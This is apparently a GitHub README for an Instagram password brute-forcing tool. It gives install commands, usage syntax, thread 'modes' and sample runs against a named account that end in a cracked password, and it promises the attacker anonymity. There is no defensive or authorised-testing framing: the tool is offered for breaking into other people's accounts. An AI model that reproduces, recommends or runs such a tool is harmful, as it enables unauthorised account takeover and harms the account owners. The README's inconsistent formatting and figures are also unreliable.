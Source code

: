 # IG-HACK-ZOOM-HACKERS
INSTA HACKING PRIVATE TOOL
[![Instagram](https://instagram.com/veerasimhan_mass?igshid=YmMyMTA2M2Y=)](https://instagram.com/)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

PRIVATE TOOL!.

### Support me
### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots

```
###Install
apt update && apt upgrade -y
apt install git
apt install python
apt install python2
git clone https://github.com/veerasimhan-mass/IG-HACK-ZOOM-HACKERS.git
cd IG-HACK-ZOOM-HACKERS
### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```
###RUN
python3 instagram.py <username> /sdcard/Download/password.txt -m 3
### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1

[+] Password: Sami123
